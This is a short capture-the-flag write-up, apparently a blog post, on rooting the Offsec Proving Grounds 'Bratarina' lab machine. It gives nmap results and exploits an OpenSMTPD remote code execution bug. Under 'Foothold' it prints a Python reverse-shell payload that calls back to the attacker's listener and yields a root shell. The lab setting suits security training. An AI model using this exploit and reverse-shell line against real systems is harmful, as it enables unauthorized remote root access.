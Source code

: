 ```yaml
---
title: "Proving grounds Play: Bratarina"
layout: post
date: 2023-10-05 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- PG-Practice
- SMTP
- RCE
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice linux machine writeup"
---
```


## Nmap

```text
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dbdd2cea2f85c589bcfce9a338f0d750 (RSA)
|   256 e3b765c2a78e4529bb62ec301aebed6d (ECDSA)
|_  256 d55b795bce48d85746db594fcd455def (ED25519)
25/tcp  open  smtp        OpenSMTPD
| smtp-commands: bratarina Hello nmap.scanme.org [192.168.45.212], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
80/tcp  open  http        nginx 1.14.0 (Ubuntu)
|_http-title:         Page not found - FlaskBB        
|_http-server-header: nginx/1.14.0 (Ubuntu)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: COFFEECORP)
Service Info: Host: bratarina; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 25/tcp  open  smtp - OpenSMTPD

The service OpenSMTPD is vulnerable to [OpenSMTPD 6.6.1 - Remote Code Execution](https://www.exploit-db.com/exploits/47984) vulnerability.

## Foothold

```sh
naveenj@hackerspace:|22:38|~/proving_grounds/Bratarina/exploits$ python3 exploit.py 192.168.192.71 25 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.212\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"'
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done

naveenj@hackerspace:|22:37|~/proving_grounds/Bratarina/exploits$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.212] from (UNKNOWN) [192.168.192.71] 34894
root@bratarina:~# 
```

**Foothold Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).